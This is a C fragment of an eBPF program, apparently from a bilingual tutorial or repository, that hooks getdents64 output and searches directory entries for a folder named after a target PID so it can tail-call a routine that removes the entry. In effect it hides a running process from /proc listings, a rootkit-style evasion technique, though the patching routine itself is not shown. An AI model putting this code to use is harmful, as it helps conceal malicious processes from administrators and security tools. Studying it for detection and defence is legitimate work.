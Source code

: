 ```c
    // All of this is quite complex, but basically boils down to
    // Calling 'handle_getdents_exit' in a loop to iterate over the file listing
    // in chunks of 200, and seeing if a folder with the name of our pid is in there.
    // If we find it, use 'bpf_tail_call' to jump to handle_getdents_patch to do the actual
    // patching
    long unsigned int buff_addr = *pbuff_addr;
    struct linux_dirent64 *dirp = 0;
    int pid = pid_tgid >> 32;
    short unsigned int d_reclen = 0;
    char filename[MAX_PID_LEN];

    unsigned int bpos = 0;
    unsigned int *pBPOS = bpf_map_lookup_elem(&map_bytes_read, &pid_tgid);
    if (pBPOS != 0)
    {
        bpos = *pBPOS;
    }

    for (int i = 0; i < 200; i++)
    {
        if (bpos >= total_bytes_read)
        {
            break;
        }
        dirp = (struct linux_dirent64 *)(buff_addr + bpos);
        bpf_probe_read_user(&d_reclen, sizeof(d_reclen), &dirp->d_reclen);
        bpf_probe_read_user_str(&filename, pid_to_hide_len, dirp->d_name);

        int j = 0;
        for (j = 0; j < pid_to_hide_len; j++)
        {
            if (filename[j] != pid_to_hide[j])
            {
                break;
            }
        }
        if (j == pid_to_hide_len)
        {
            // ***********
            // We've found the folder!!!
            // Jump to handle_getdents_patch so we can remove it!
            // ***********
            bpf_map_delete_elem(&map_bytes_read, &pid_tgid);
            bpf_map_delete_elem(&map_buffs, &pid_tgid);
            // 用 bpf_tail_call 函数跳转到 handle_getdents_patch 函数，进行实际的隐藏操作
            bpf_tail_call(ctx, &map_prog_array, PROG_02);
        }
        bpf_map_update_elem(&map_to_patch, &pid_tgid, &dirp, BPF_ANY);
        bpos += d_reclen;
    }

    // If we didn't find it, but there's still more to read,
    // jump back the start of this function and keep looking
    // 如果没有找到，则尾调用到原来的地方继续执行操作
    if (bpos < total_bytes_read)
    {
        bpf_map_update_elem(&map_bytes_read, &pid_tgid, &bpos, BPF_ANY);
        bpf_tail_call(ctx, &map_prog_array, PROG_01);
    }
    bpf_map_delete_elem(&map_bytes_read, &pid_tgid);
    bpf_map_delete_elem(&map_buffs, &pid_tgid);

    return 0;
```